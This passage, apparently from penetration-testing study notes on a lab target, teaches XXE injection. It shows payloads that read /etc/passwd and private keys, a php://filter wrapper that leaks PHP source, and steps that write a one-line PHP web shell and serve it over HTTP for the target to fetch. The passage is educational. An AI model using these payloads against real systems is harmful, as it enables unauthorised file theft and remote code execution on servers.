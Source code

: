     ```xml
    <!DOCTYPE email [
      <!ENTITY company "Inlane Freight">
    ]>
    ```

    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE email [
      <!ENTITY company "Inlane Freight">
    ]>
    <root>
    <name>test</name>
    <tel>2312313123</tel>
    <email>&company;</email>
    <message>test</message>
    </root>
    ```
  
  * a non-vulnerable web app would display ```&company;``` as a raw value, but here we got the value of entity - indicating we can inject XML code

  * for certain webapps which send requests in JSON format, we can try changing the ```Content-Type``` header to ```application/xml``` and convert [JSON to XML](https://www.convertjson.com/json-to-xml.htm) - if webapp accepts XML data, we can check for XXE vulnerabilities

  * now, since internal XML entities worked, we can check for external XML entities:

    ```xml
    <!DOCTYPE email [
      <!ENTITY company SYSTEM "file:///etc/passwd">
    ]>
    ```
  
  * this works, and we can read local files like ```/etc/passwd``` or ```id_rsa``` for certain users which can be used to get access to server

  * we cannot read certain files if they're not in proper XML format; for those cases, we can try using wrapper filters to encode in base64, so that it does not break the format (this works only with PHP webapps):

    ```xml
    <!DOCTYPE email [
      <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
    ]>
    ```
  
  * for RCE, one way is by fetching a webshell from our server and writing it to web app; this requires the PHP ```expect``` module to be installed and enabled (```$IFS``` is used for spaces to avoid breaking XML format):

    ```shell
    echo '<?php system($_REQUEST["cmd"]);?>' > webshell.php

    sudo python3 -m http.server 80
    ```
